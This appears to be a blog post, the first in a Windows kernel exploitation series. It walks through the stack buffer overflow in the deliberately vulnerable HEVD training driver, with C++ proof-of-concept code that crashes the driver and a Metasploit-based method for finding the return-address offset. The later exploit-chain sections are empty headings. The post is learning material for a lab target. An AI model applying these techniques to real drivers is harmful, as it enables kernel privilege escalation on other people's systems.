 ```yaml
---
title: Windows Kernel Exploitation Part 1 - Exploitation Stack Overflows
date: 2024-08-24 23:00:00 -0500
categories: [WKE, pwn]
tags: [windows, kernel, pwn, wke]
author: oreo
dsecription: Windows Kernel Exploitation Part 1 - Exploiting Stack Overflows
---
```


# Introduction
{: .mt-4 .mb-0 }

This series will highlight my experience with the HackSys Extremely Vulnerable Driver (HEVD) as I delve into learning Windows kernel exploitaiton :tada: I intentionally left out the initial steps in getting started - loading & running the driver and setting up kernel debugging - as I have already wrote an article on it [here](https://0reome1ster.github.io/posts/Windows-Kernel-Debugging). For this and future WKE posts, feel free to checkout my [WKE repo](https://github.com/0reome1ster/WKE) to see full source as opposed to code snippets! I am following a guide, <https://mdanilor.github.io/posts/hevd-0/>, to help orient myself during this first exploit so check it out!

# The Initial Crash
{: .mt-4 .mb-0 }

### Vulnerable Code
{: data-toc-skip='' .mt-4 .mb-0 }

```cpp
    ULONG KernelBuffer[BUFFER_SIZE] = { 0 };

(...)

    ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(UCHAR));

    DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
    DbgPrint("[+] UserBuffer Size: 0x%zX\n", Size);
    DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
    DbgPrint("[+] KernelBuffer Size: 0x%zX\n", sizeof(KernelBuffer));

(...)

    DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

    //
    // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
    // because the developer is passing the user supplied size directly to
    // RtlCopyMemory()/memcpy() without validating if the size is greater or
    // equal to the size of KernelBuffer
    //

    RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

(...)
```

The above comment succintly summarizes the vulnerability within `TriggerBufferOverflowStack` - the user-controlled size variable is passed to `RtlCopyMemory` (a Windows API equivalent of memcpy) without any size checks. This allows an attacker to write an arbitrary amount of data to the destination buffer `KernelBuffer`, enabling a stack buffer overflow.

> This is a stack BoF because `KernelBuffer` is allocated on the stack; it could be a heap BoF if it was allocated via APIs such as ExAllocatePool and ExAllocatePoolWithTag
{:.prompt-info} 

### PoC Snippet
{: data-toc-skip='' .mt-4 .mb-0 }
```cpp
void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	memset(buf, 'A', bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

### Triggering the BoF
{: data-toc-skip='' .mt-4 .mb-0 }

Running the exploit code, we can see we triggered a crash.

![Buffer Overflow BSoD](/assets/WKE/StackOverflow/StackOverflow1.png)

# Determining Offset
{: .mt-4 .mb-0 }

Since we know that it roughly takes 4096 (0x1000) bytes to trigger the BoF, we can use Metasploit Framework's `msf-pattern_create` tool to generate a unqiue paylod to quickly ascertain the offset.

![msf-pattern_create](/assets/WKE/StackOverflow/pattern_create.png)

```cpp
const char* pattern = "<truncated for brevity>";

void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	// memset(buf, 'A', bufSize);
	memcpy(buf, pattern, bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

> I do recognize that I could've directly passed `pattern` through the ioctl call; however, I didn't feel like changing variable names back-and-forth.
{: .prompt-info}

I recompiled my exploit binary and re-ran it on the VM to obtain the payload offset to overwrite RIP with.

![Stack BoF for offset](/assets/WKE/StackOverflow/StackOverflow2.png)

We can ignore the first column, `Child-SP`, and solely focus on `RetAddr`. We can see that the address it's trying to return to looks like a sequence of ASCII - 0x43, 0x32, 0x27, etc. We can extract this and paste it into another Metasploit Framework tool called `msf-pattern_offset` (very convenient naming).

![msf-pattern_offset](/assets/WKE/StackOverflow/pattern_offset.png)

> I added the help page because I forgot the flags and I thought it'd be good to show
{: .prompt-info}

Now that we know the offset, 2072 bytes, we can ROP our way into an Elevation of Privilege (EoP)...

# Writing Exploit Chain
{: .mt-4 .mb-0 }

## Bypassing kASLR - Leaking Kernel Base
{: .mt-4 .mb-0 }

## ROP-ing to Shellcode
{: .mt-4 .mb-0 }

## Writing Shellcode
{: .mt-4 .mb-0 }

# :balloon: Party Time :balloon:
{: .mt-4 .mb-0 }
